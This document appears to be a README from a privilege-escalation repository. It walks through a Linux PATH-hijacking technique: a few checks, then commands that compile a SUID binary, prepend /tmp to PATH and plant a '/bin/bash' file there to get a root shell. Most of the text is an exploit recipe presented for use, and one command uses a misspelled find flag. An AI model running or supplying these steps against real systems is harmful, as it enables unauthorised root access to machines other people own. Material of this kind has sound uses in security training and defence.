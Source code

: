 # Example:

### echo $PATH

## Questions before using this privesc vector:

### 1: What folders are located under $PATH?

### 2: Does your current user have write privileges for any of these folders?

### 3: Can you modify $PATH?

### 4: Is there a script/app you can start that will be affected by this vulnerability?

### Example script is at root shells directory in this repository:

## Compilation: 

### gcc path_exp.c -o path -w

### chmod u+s path

### find / -writeable 2>/dev/null

### export PATH=/tmp:$PATH (Add tmp to PATH)

### cd /tmp

### echo "/bin/bash" > example

### chmod 777 example

### ./path

